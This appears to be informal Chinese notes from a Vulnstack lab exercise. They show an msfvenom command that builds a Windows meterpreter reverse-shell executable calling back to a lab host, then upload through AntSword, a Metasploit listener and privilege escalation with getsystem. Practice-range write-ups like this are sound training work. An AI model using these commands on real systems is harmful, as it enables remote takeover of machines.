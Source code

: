 
笑死 继续打vulnstack~

msfvenom:
`msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.136.146  LPORT=6790 -f exe > shell.exe`

然后蚁剑上传 msf上线监听
md 我直接把win7两个网卡都改为NAT了 c..

getshell!
![img](Vuln_2瞎打版/images/image-12.png)


但我们不需要这个p权限 我们直接在 强大的metrepeter操作
直接 `getsystem`提权
![img](Vuln_2瞎打版/images/image-13.png)
